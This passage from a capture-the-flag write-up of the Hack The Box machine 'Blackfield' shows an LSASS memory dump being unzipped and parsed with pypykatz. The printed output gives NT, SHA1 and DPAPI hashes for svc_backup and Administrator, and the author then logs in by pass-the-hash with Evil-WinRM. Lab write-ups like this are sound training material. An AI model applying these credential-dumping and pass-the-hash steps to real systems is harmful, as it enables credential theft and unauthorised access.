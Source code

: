 Looks like there are several memory/investigation type files in here. Luckily for us there is a lsass.zip file, which will likely contain lots of juicy materials. Lets bring that back to our machine using the `get` command. 

Note: There's a pretty interesting article on this type of attack from Microsoft. https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/

Unzipping the file we are presented with a file called lsass.DMP:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ unzip lsass.zip                                  
Archive:  lsass.zip
  inflating: lsass.DMP
```

From here we can use pypykatz (a Python version of Mimikatz) to extract hashes:

```text
┌──(ryan㉿kali)-[~/HTB/Blackfield]
└─$ pypykatz lsa minidump lsass.DMP
```

This drops a ton of information for us, the most interesting being:

```text
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
		DPAPI: a03cd8e9d30171f3cfe8caad92fef621

	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
		DPAPI: 240339f898b6ac4ce3f34702e4a89550
```

Cool, now that we have these hashes we can try logging onto the box. Unfortunately the admin hash didn't seem to work for me, but I was able to pass-the-hash in Evil-WinRM to logon as svc_backup and grab the user.txt flag:

![user_flag.png](../assets/blackfield_assets/user_flag.png)
